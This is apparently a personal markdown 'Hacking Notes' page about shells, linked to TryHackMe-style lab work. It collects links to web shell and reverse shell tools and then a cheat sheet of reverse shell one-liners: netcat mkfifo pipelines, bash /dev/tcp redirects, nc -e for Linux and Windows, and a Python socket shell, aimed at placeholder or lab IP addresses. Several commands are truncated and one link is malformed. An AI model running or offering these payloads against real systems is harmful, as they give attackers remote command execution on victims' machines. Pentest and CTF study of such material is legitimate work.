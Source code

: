 ```yaml
---
tags: 🔻 🔻/shell
aliases: Hacking Notes
---
```


# Shell

[ttps://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors)  
[http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)  
[http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)  
[https://github.com/b374k/b374k](https://github.com/b374k/b374k)  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)  
  
 ### quick reverse shell scripts
 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.13.142 4444 >/tmp/f`
  
`echo "rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc x.x.x.x ` 
  
`/bin/nc -e /bin/bash x.x.x.x ` 
  
  
  
## Reverse Shells  
### Bash

Some versions of [bash can send you a reverse shell] 

#bash_shell 
[with thm vpn ip in]
`bash -i >& /dev/tcp/10.11.13.142/8080 0>&1`
  
alternative 
`bash -i >& /dev/tcp/x.x.x.x`  
  
  
#netcat without -e flag  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x`  
  
  
#netcat Linux  
`nc -e /bin/sh x.x.x.x`  
  
  
#netcat Windows  
`nc -e cmd.exe x.x.x.x`  
  
  
#Python  
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("x.x.x.x))`  
  
